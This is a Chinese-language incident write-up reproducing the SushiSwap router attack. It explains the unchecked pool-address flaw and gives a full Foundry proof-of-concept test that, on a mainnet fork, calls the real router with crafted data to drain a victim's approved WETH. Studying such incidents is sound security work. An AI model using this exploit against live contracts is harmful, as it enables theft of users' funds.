





# SUSHI攻击复现

## 1.参考资料

https://phalcon.xyz/tx/eth/0x04b166e7b4ab5105a8e9c85f08f6346de1c66368687215b0e0b58d6e5002bc32

漏洞较为简单，通过上述交易能够知道漏洞成因，今天中午发生的攻击

## 2.漏洞成因

https://twitter.com/SlowMist_Team/status/1644936375924584449

​	sushi没有校验pool地址，且可外部传入pool的地址，攻击者可以把恶意合约的地址传进来当作pool地址，然后Router会调用恶意合约的swap函数，恶意合约的swap函数再调用Router的uniswapV3SwapCallback函数，这个函数可以将授权过的用户资金转入msg.sender，但这个时候的msg.sender是恶意合约，攻击者成功盗取用户资金。漏洞合约仅部署了四天，未造成太大范围的资金损失。

利用过程：

1.恶意合约调用processRoute函数，传入的route包含了恶意合约本身的地址





2.processRoute函数调用恶意合约的swap函数，恶意合约的swap参数再次调用漏洞合约的uniswapV3SwapCallback函数，构造的data参数包含了WETH代币的地址，会执行最后一行代码，成功转账





## 3.利用POC

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url <your own RPC> --fork-block-number 17006100

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface Sushi{
    function processRoute(
    address tokenIn,
    uint256 amountIn,
    address tokenOut,
    uint256 amountOutMin,
    address to,
    bytes memory route
  ) external payable  returns (uint256 amountOut);

  function uniswapV3SwapCallback(
    int256 amount0Delta,
    int256 amount1Delta,
    bytes calldata data
  ) external;
}

interface WETH{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}


contract ContractTest is Test{
    function setUp() public {

    }

// 4830262616
    address sushiRoute = address(0x044b75f554b886A065b9567891e45c79542d7357);
    address weth = address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
    address weth2 = address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    function swap(
            address recipient,
            bool zeroForOne,
            int256 amountSpecified,
            uint160 sqrtPriceLimitX96,
            bytes calldata data
    ) external returns (int256 amount0, int256 amount1){
        Sushi(address(sushiRoute)).uniswapV3SwapCallback(1000000000000000000,0,hex"000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc200000000000000000000000031d3243cfb54b34fc9c73e1cb1137124bd6b13e1");
        return (0,0);
    }
    function testattack() public {
        console.log("before: ",WETH(address(weth2)).balanceOf(address(this)));
        bytes memory data = hex"01514910771af9ca656af840dff83e8264ecf986ca010000017fa9385be102ac3eac297483dd6233d62b3e1496000000000000000000000000000000000000000000";
        Sushi(address(sushiRoute)).processRoute(address(weth),0,address(weth),0,address(0),data);
        console.log("after: ",WETH(address(weth2)).balanceOf(address(this)));
    }

}
```


## 4.复现结果

成功将受害者的100WETH转到攻击合约中。




